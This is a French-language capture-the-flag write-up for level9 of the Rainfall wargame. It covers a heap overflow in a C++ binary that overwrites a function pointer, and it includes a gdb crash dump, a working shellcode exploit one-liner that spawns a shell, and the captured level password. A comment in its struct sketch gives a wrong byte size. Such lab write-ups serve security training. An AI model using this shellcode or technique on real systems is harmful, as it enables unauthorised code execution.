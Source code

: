 ﻿Dans ce niveau, on a ce qui s'apparente a du C++ compile.

On voit qu'il y a une classe `N` qui a une methode `operator+`, un pointeur sur fonction, un nombre et une chaine de charactere
A priori en terme de structure on a quelque chose comme cela:
```c
struct {
    void (*f)(N*, N*);  // 4 bytes
    char str[100];      // 4 bytes
    int nb;             // 4 bytes
} N;                    // 108 bytes
```

```bash
[----------------------------------registers-----------------------------------]
EAX: 0x2d2d2d2d ('----')
EBX: 0x804ec20 ("----")
ECX: 0x2d2d2d2d ('----')
EDX: 0x804ec24 --> 0x0
ESI: 0xffffd144 --> 0xffffd2b9 ("/mnt/c/Users/Remi/Downloads/Rainfall_execs/level9")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0xffffd088 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0
ESP: 0xffffd060 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:       push   ebp)
EIP: 0x8048682 (<main+142>:     mov    edx,DWORD PTR [eax])
EFLAGS: 0x10287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048677 <main+131>:        call   0x804870e <_ZN1N13setAnnotationEPc>
   0x804867c <main+136>:        mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:        mov    eax,DWORD PTR [eax]
=> 0x8048682 <main+142>:        mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:        mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:        mov    DWORD PTR [esp+0x4],eax
   0x804868c <main+152>:        mov    eax,DWORD PTR [esp+0x10]
   0x8048690 <main+156>:        mov    DWORD PTR [esp],eax
[------------------------------------stack-------------------------------------]
0000| 0xffffd060 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
0004| 0xffffd064 --> 0xffffd2eb ("aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz0000----")
0008| 0xffffd068 --> 0xf7fbf8e0 --> 0xf7b6dcc6 ("GLIBC_PRIVATE")
0012| 0xffffd06c --> 0x1
0016| 0xffffd070 --> 0x804ec20 ("----")
0020| 0xffffd074 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
0024| 0xffffd078 --> 0x804ec20 ("----")
0028| 0xffffd07c --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048682 in main ()
gdb-peda$
```

Avec une entree de 108 characteres, on voit que le programme crash lorsqu'il essaie de faire un `mov edx, DWORD PTR [eax]`
C'est du au fait que lorsqu'on copie les 108 characteres de `argv[1]`, on ecrase le pointeur sur fonction de la classe 2.  
Ainsi on peut ecrire du shellcode dans `argv[1]` qui sera ensuite copie dans le buffer de la classe 2.  
Et ensuite a la fin de la chaine on met l'addresse de notre shellcode pour que le pointeur sur fonction pointe dessus.  
Il faut noter une chose aussi, c'est que l'addresse a mettre dans `edx` est un pointeur vers l'addresse de la fonction a executer.  
Ainsi on mets au bout l'addresse du debut du buffer, et au debut du buffer on mets l'addresse du shellcode qui se trouve juste apres.
Quelque chose du genre:
```
buffer:   [ADDR_SHELLCODE] [SHELLCODE] [...PLACEHOLDER...] [ADDR_FN]
bytes:            4             28        (108 - 28 - 4)       4
```

```bash
level9@RainFall:~$ ./level9 $(python -c 'sc_addr = "\x10\xa0\x04\x08"; sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print sc_addr + sc + "\x42"*(108-len(sc)-len(sc_addr)) + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```